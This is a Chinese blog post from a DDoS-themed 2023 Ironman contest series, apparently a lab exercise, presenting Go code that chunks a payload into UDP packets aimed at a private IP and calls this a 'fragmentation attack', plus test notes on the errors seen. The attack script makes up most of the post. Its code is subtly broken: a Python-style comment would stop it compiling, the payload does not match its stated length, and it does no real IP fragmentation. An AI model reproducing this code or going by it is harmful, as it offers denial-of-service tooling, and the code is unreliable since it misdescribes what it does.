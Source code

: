 ```yaml
---
author: Sunny Tsai
title: "[Day 29] 閑的沒事 - Fragmentation UDP"
date: 2023-10-12
math: true
tags: [
    "cloud",
    "fragmentation attack",
    "udp"
]
categories: [
    "2023鐵人賽"
]
series: ["2023鐵人賽-DDOS：閑的沒事就開始DDOS"]
---
```

# Code
udp封包分片
```go
package main

import (
	"fmt"
	"log"
	"net"
	"time"
)

func main() {
	targetIP := "10.211.55.10"
	targetPort := 12345

	udpAddr, err := net.ResolveUDPAddr("udp", fmt.Sprintf("%s:%d", targetIP, targetPort))
	if err != nil {
		log.Fatal(err)
	}

	conn, err := net.DialUDP("udp", nil, udpAddr)
	if err != nil {
		log.Fatal(err)
	}
	defer conn.Close()

	payload := `又是熟悉的payload，總長1360`
	fmt.Println(len(payload))  # 1360

	chunkSize := 1000
	for i := 0; i < len(payload); i += chunkSize {
		end := i + chunkSize
		if end > len(payload) {
			end = len(payload)
		}

		_, err = conn.Write([]byte(payload[i:end]))
		if err != nil {
			log.Fatal(err)
		}

		fmt.Printf("Sent fragment: %s\n", payload[i:end])
		time.Sleep(1 * time.Millisecond)
	}

	fmt.Println("Packet sent successfully!")
}
```


# 測試
chunkSize不管是設定100還是1000的時候，通常只發送一次封包後下一次發送就會出現connection refused的錯誤訊息。因為我啟動一個Flask Web Endpoint監聽這個端口，Flask web service默認只支援HTTP over TCP。當我測試時使用UDP協議向目標主機發送請求時，由於Flask不處理 UDP 請求，因此不會有任何響應。當我的UDP客戶端再次嘗試發送時，就會收到一個`connection refused`的錯誤。

看起來做壞事分片發送不能常用UDP協議了，容易出現`connection refused`。用其他常用的PORT也是如此。
